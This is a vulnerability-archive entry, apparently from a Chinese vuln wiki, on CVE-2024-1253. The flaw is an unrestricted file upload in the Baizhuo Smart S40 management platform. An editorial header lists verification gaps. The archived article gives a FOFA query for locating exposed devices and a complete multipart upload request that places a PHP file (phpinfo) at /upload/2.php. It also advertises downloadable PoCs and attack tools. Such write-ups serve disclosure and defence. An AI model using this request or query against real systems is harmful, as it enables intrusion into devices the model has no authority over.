




# CVE-2024-1253

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：百卓网络Smart S40管理平台
- 文献类型：认证状态不明的上传复现
- 版本、权限及部署边界：文称20240126；/useratte/web.php import模式，报文携PHPSESSID；上传目录PHP可执行
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 文中百绰等厂商拼写需归一；20240126是文称版本需对应固件build而非自行作日期范围
2. 请求有会话Cookie却未说明登录/角色要求，不能宣称未授权上传
3. multipart结束边界缺--终止符，静态Content-Length需重新计算；文件实际落点/执行证据仅截图
4. 根因源码仅图片，缺厂商/CVE原始来源和固定版本；更新最新不足

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://ip:port>
- 原文参考链接（未重新核验）：<https://ip:port/sysmanage/licence.php>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 fgz  AI与网安   2024-02-09 06:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
北京百绰智能S40管理平台导入web.php无限制上传  
漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
北京百绰智能S40管理平台20240126版本。  
  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
北京百绰智能S40管理平台20240126版本存在一种关键漏洞。该漏洞影响了组件Import Handler的/useratte/web.php文件的某些未知功能。通过对参数file_upload的操纵可导致未受限的上传。攻击可能会远程启动。该漏洞的利用已经公开并可能被利用。  
  
  
漏洞成因分析：  
  
  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
title="Smart管理平台"
```  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
文件上传数据包：  
```
POST /useratte/web.php? HTTP/1.1
Host: ip:port
Cookie: PHPSESSID=cb5c0eb7b9fabee76431aaebfadae6db
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 597
Origin: https://ip:port
Referer: https://ip:port/sysmanage/licence.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="2.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

import
-----------------------------42328904123665875270630079328
```  
  
  
  
  
回显文件路径  
/upload/2.php  
  
  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
07  
  
—  
  
资料领取  
  
  
新  
关注的朋友可以在后台发送关键字苗费获取下列资料：  
  
后台发送【  
电子书】关键字获取学习资料网盘地址  
  
  
后台发送【  
POC】关键字获取POC网盘地址  
  
  
后台发送【  
工具】获取渗透工具包  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
